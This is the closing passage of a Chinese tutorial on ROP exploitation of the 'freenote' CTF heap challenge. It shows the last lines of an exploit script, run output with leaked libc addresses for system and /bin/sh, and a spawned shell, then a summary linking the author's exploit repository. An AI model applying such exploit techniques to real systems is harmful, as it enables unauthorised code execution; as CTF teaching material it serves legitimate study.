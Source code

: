 ```
delete_note(1)  

p.interactive() 
```

执行exp的结果如下：

```
$ python exp9.py 
[+] Started program './freenote_x64'
b8a75eb2b57f
0x7fb5b25ea7b8
system_sh_addr: 0x7fb5b2278310
binsh_addr: 0x7fb5b23abfc7
20684b02
0x24b6820
[*] Switching to interactive mode
$ whoami
mzheng 
```

## 0x04 总结

除了64位的freenote，blue-lotus还弄了一个32位版的freenote给大家练习。这些binary和exp都可以在我的github上下载到：

[https://github.com/zhengmin1989/ROP_STEP_BY_STEP](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)

另外，下篇我会带来arm上rop的利用，敬请期待。

## 0x05 参考资料

1.  [http://v0ids3curity.blogspot.com/2013/07/some-gadget-sequence-for-x8664-rop.html](http://v0ids3curity.blogspot.com/2013/07/some-gadget-sequence-for-x8664-rop.html)
2.  掘进CTF-杨坤
